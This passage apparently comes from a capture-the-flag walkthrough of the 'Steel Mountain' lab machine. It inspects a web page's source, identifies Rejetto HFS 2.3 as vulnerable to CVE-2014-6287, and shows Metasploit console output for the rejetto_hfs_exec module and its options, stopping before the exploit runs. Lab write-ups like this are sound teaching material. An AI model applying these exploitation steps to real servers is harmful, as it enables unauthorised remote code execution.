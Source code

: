 ## Webservers

Since we see there is a webserver running on port 80 of the machine, we can visit it via a web browser. By viewing the source of the page, we see that the image under employee of the month is named as `BillHarper`.

```HTML
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>Steel Mountain</title>
<style>
* {font-family: Arial;}
</style>
</head>
<body><center>
<a href="index.html"><img src="/img/logo.png" style="width:500px;height:300px;"/></a>
<h3>Employee of the month</h3>
<img src="/img/BillHarper.png" style="width:200px;height:200px;"/>
</center>
</body>
</html>
```

In addition to this, there's another webserver running on port `8080`. After visiting this port, we notice that it is running the `rejetto HTTP File Server 2.3`. 

A quick google search reveals that there is a [RCE vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) present in this version under `CVE-2014-6287`. We can use metasploit to exploit this and gain access to the server.

## Exploiting Rejetto HFS

Searching for modules under Rejetto in Metasploit, provides us the following result.

```bash
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```

After loading the model, we can look for which options we should set.

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > show options 

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
```